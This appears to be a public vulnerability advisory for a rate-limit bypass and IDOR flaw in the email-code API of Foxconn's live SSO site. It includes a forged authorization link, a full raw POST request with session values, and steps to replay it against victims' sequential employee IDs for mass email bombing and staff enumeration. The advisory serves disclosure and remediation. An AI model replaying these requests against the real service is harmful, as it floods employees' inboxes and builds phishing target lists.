

## Summary

A **Rate Limiting Bypass** and **Insecure Direct Object Reference (IDOR)** vulnerability exists in the `mailSendCode` API of the Foxconn Central Authorization Center (`sso.foxconn.com`). While the frontend implements a 120-second cooldown for sending email verification codes, the backend fails to validate the request frequency. Furthermore, the API does not verify if the `MailUserId` provided in the request body matches the authenticated session of the user. Because Employee IDs are **sequential and predictable**, an attacker can use automated scripts to iterate through ID ranges and trigger mass email delivery to any employee in the organization.


## Affected Product
- **Vendor:** Foxconn
- **Product:** Central Authorization Center
- **Version:** Current as of 2025-11-20
- **Component:** Email Verification Module
- **Domain:** sso.foxconn.com

**Note:** the vulnerability was confirmed in the live web application as of 2025-11-20. Since the application does not expose a version string, a specific version number could not be determined.


## Impact

* **Denial of Service (DoS)**: Attackers can bombard targeted email accounts with excessive verification codes, overwhelming inboxes, consuming user time, and potentially disrupting access to critical emails.
* **Automated Mass Email Bombing:** Attackers can script a loop (e.g., F1245300 to F1245900) to flood thousands of employees' inboxes simultaneously, disrupting corporate communications.
* **Employee Directory Enumeration:** The API response serves as an oracle. An attacker can confirm active employee IDs by observing successful `{"result": 1}` responses, allowing them to build a verified target list for phishing or social engineering.
* **Resource and Financial Exhaustion:** High-frequency API abuse consumes server CPU/memory and can lead to significant costs if integrated with third-party paid SMTP or SMS gateways.


## CVSS v3.1 Score
**Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:H`

**Base Score:** **8.2 (High)**

- AV (Attack Vector): `Network`
- AC (Attack Complexity): `Low`
- PR (Privileges Required): `None`
- UI (User Interaction): `None`
- S (Scope): `Unchanged`
- C (Confidentiality): `Low`
- I (Integrity): `None`
- A (Availability): `High`


## Reproduction Steps


When logging in to the Fuxue Baodian website, the two-factor authentication (2FA) page is as shown below:


After clicking "Trust APP", the page redirects to the central authorization center.

**Note that you can modify the value of the `login_hint` request parameter (`F1245363`) in the request below to the victim’s employee ID to forge an identity authorization link to the central authorization center:**

```
https://sso.foxconn.com/connect/authorize?login_hint=F1245363&login_type=Mfa&client_id=fuxuebaodian&redirect_uri=https%3A//iedu.foxconn.com/third/icivet_2fa&response_type=code&scope=openid%20profile%20foxconn%20phone&response_mode=query&state=L3ByaXZhdGUvaG9tZS9ob21lUGFnZT9sYXN0Q29tcGFueUlkPS0x
```

Access this link above in the browser, select "Email Verification" under "Other Methods", and then click "Send Email Verification Code", as shown in the following image:



View the request sent by the frontend after clicking this button in BurpSuite, as shown below:

```http
POST /Civet/LoginStandard/mailSendCode HTTP/1.1
Host: sso.foxconn.com
Cookie: sso.ui.loadtoken=CfDJ8J88RAttq7BHhHb6O7-9DWk7USMtomWCG2WhRy7FwYFsic2WRbXfDad5kPzQLEa3HP8frxWGo2r6DGDoiaLi485YdgnJXFNPmTohdzM7Z73OXGAkkoxYi8xMYrJX9k-0GrK6pVD-Ipsl01OkNh6bj9Q
Content-Length: 221
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-TW,zh;q=0.9
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: https://sso.foxconn.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://sso.foxconn.com/Civet/Mfa/Login/Mfa?ReturnUrl=%2Fconnect%2Fauthorize%2Fcallback%3Flogin_hint%3DF1245363%26login_type%3DMfa%26client_id%3Dfuxuebaodian%26redirect_uri%3Dhttps%253A%252F%252Fiedu.foxconn.com%252Fthird%252Ficivet_2fa%26response_type%3Dcode%26scope%3Dopenid%2520profile%2520foxconn%2520phone%26response_mode%3Dquery%26state%3DL3ByaXZhdGUvaG9tZS9ob21lUGFnZT9sYXN0Q29tcGFueUlkPS0x
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

MailUserId=F1245363&MailType=auth_mail&__RequestVerificationToken=CfDJ8J88RAttq7BHhHb6O7-9DWnVwkCsgPeLp2J2PIi7ERswvD5MTajd7pY6uW9hTI54vyo0H8KtFH9-TvIt2ux3tnd_0FXB-y7twRHgeehYbWHBY4m429bxRQxKypLRWTywTRYXv6ZRDCV4jz4KHQFOaSk
```

The server response result is as shown below:

```http
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 25 Nov 2025 12:04:40 GMT
Content-Type: application/json; charset=utf-8
Connection: keep-alive
x-dt-tracestate: 747dc706-46dc6e7f@dt
traceresponse: 00-e2e15305bb356aefbeb6f1e70ccee78c-5bcd07c7fd31ed39-01
Access-Control-Allow-Credentials: true
Content-Length: 23

{
  "result": 1,
  "msg": "OK"
}
```

OK, bypassing the frontend restriction of a 120-second cooldown for each click on "Send Email Verification Code", then we directly **call this API at high frequency and continuously 30 times in BurpSuite**, and find that my own email `a.**************ang@foxconn.com` quickly receives 30 emails!

Moreover, **even more critically**: if we modify the value of `MailUserId` in the above request to the **victim's employee ID**, and then **call this API at high frequency and continuously 30 times in BurpSuite**, we find that the victim's email also quickly receives 30 emails, proving that this API has an `IDOR` vulnerability!


## Remediation

* **Enforce Session Ownership (IDOR Fix):** The backend must ignore the `MailUserId` parameter from the request body and instead use the ID associated with the user's encrypted session/token.
* **Request Validation:** Implement a CAPTCHA (e.g., hCaptcha or Google reCAPTCHA) on the "Send Code" action to prevent automated script traversal.
* **ID Masking:** Avoid using raw, sequential Employee IDs in public-facing APIs. Use non-predictable UUIDs or hashed identifiers.


## Timeline
- **2025-11-20:**

  Vulnerability identified and initial proof-of-concept (PoC) verified.

- **2025-11-28:**

  Detailed vulnerability report submitted to the vendor for remediation.

  No acknowledgment or remediation confirmation received as of 2026-01-14.

- **2026-01-14:**

  Decision made to proceed with public disclosure following the expiration of a reasonable grace period.


## CWE References

* [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)
* [CWE-799: Improper Control of Interaction Frequency](https://cwe.mitre.org/data/definitions/799.html)
* [CWE-639: Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)